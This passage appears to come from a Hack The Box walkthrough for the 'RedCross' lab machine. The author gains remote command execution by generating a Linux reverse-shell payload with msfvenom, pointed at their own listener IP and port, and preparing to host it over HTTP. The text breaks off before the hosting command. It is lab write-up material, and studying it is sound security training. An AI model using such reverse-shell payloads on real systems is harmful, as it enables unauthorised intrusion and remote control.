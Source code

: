 ![6623fed5.png](/assets/images/posts/redcross-htb-walkthrough/6623fed5.png)
</a>

It's apparent from above that it doesn't. :laughing: Time to test out remote command execution!

I'm generating a reverse shell with `msfvenom` and hosting it with Python's SimpleHTTPServer module. I'm going to assume the server is running 64-bit Linux.

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.15.241 LPORT=1234 -f elf -o rev
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: rev
```

Host the reverse shell like so.


[1]: https://www.hackthebox.eu/home/machines/profile/162
[2]: https://www.hackthebox.eu/home/users/profile/9631
[3]: https://www.hackthebox.eu/